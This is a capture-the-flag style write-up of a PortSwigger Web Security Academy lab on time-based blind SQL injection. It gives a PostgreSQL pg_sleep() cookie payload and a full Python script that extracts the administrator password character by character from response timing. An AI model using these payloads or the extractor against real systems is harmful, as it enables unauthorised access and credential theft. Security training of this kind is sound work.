

# Lab: Blind SQL injection with time delays and information retrieval

**Platform:** PortSwigger Web Security Academy
**Category:** SQL Injection
**Difficulty:** Practitioner

## 🎯 Objective
The application contains a blind SQL injection vulnerability. It does not return database output, nor does it alter its responses based on boolean logic or database errors. The goal is to combine time-delay payloads with boolean inference to extract the `administrator` password character by character.

## 🕵️‍♂️ Analysis
Because the application is completely silent, we must rely on **Time-Based Inference**. By injecting a `CASE` statement combined with PostgreSQL's `pg_sleep()` function, we can force the database to pause its execution only when our injected condition is true.
* **If True:** `pg_sleep(10)` executes -> The server waits 10 seconds to respond.
* **If False:** `pg_sleep(0)` executes -> The server responds immediately.

By measuring the elapsed time of the HTTP response (`response.elapsed.total_seconds()` in Python), we can create a reliable True/False oracle to extract data.

## 🚀 Payload & Execution

### Step 1: Verify Password Length
Before brute-forcing characters, I crafted a scalar subquery to confirm the exact length of the administrator's password to optimize the extraction script.
* **Payload:** `TrackingId=xyz'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)=20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--`
* **Result:** The server response was delayed by 10 seconds, confirming the password is exactly 20 characters long.

### Step 2: Data Extraction via Automation
I adapted my previous Python extraction script to measure response times instead of checking HTTP status codes or HTML text. 

**Custom Python Extractor (`time_sqli.py`):**
```python
import requests
import sys

url = "https://[LAB_ID].web-security-academy.net/"
session_cookie = "[SESSION_ID]"
tracking_id = "[BASE_TRACKING_ID]" 

charset = "abcdefghijklmnopqrstuvwxyz0123456789"
password = ""

print("[*] Starting Time-Based Blind SQLi Extraction...")
print("[*] Note: This will take a few minutes. Every correct letter adds a 10-second delay.")

for position in range(1, 21):
    for char in charset:
        # PostgreSQL Time-Based Payload
        payload = f"{tracking_id}'|| (SELECT CASE WHEN SUBSTRING(password, {position}, 1)='{char}' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator') --"
        
        headers = {"Cookie": f"TrackingId={payload}; session={session_cookie}"}
        
        response = requests.get(url, headers=headers)
        
        # If the response takes longer than 9 seconds, the guessed character is correct
        if response.elapsed.total_seconds() > 9:
            password += char
            sys.stdout.write(f"\r[*] Extracting Password: {password}")
            sys.stdout.flush()
            break 

print(f"\n\n[+] Extraction Complete!")
print(f"[+] Administrator Password: {password}")
```

### Step 3: Login
Result: The script successfully forced the time delays and extracted the password: `4n1lxfm5x8962omqjrb1`. Logging in with these credentials solved the lab.

## 📸 Proof of Concept

